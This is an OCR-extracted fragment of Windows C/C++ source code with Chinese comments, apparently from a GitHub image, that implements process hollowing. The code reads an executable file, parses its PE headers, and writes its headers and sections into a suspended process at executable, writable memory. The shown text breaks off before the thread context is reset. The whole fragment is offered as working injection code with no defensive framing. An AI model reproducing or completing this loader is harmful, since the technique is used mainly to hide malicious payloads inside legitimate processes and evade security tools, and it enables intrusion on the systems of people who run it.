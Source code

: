       // 申请内存保存Exe字节码  
      char* image = (char*)VirtualAlloc(NULL, nSizeOfFile, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
      
      // 把文件读取到我们申请的缓存区  
      DWORD read;  
      if (!ReadFile(hFile, image, nSizeOfFile, &read, NULL))  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return -1;  
      }  
      
      // 关闭文件  
      CloseHandle(hFile);  
      
      // 解析PE  
      // 获取dos头  
      PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)image;  
      if (dos->e_magic != IMAGE_DOS_SIGNATURE) // 判断是否为MZ  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return 1;  
      }  
      
      // 获取nt头  
      PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(image + dos->e_lfanew);  
      
      // 获取线程上下文  
      CONTEXT ctx;  
      ctx.ContextFlags = CONTEXT_FULL;  
      GetThreadContext(pi.hThread, &ctx);  
      
      // 获取模块基质  
      ULONG_PTR base;  
      ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &base, sizeof(ULONG_PTR), NULL);  
      
      // 在默认基质下申请内存并且 设置属性为读写执行  
      LPVOID mem = VirtualAllocEx(pi.hProcess, (PVOID)(nt->OptionalHeader.ImageBase), nt->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  
      if (!mem)  
      {  
        TerminateProcess(pi.hProcess, 1);  
        return 1;  
      }  
      
      // 替换PE头  
      WriteProcessMemory(pi.hProcess, mem, image, nt->OptionalHeader.SizeOfHeaders, NULL);  
      
      for (int i = 0; i < nt->FileHeader.NumberOfSections; i++)  
      {  
        // 获取节表 写入节表  
        PIMAGE_SECTION_HEADER sec = (PIMAGE_SECTION_HEADER)((LPBYTE)image + dos->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));  
        WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)mem + sec->VirtualAddress), (PVOID)((LPBYTE)image + sec->PointerToRawData), sec->SizeOfRawData, NULL);  
      }  
      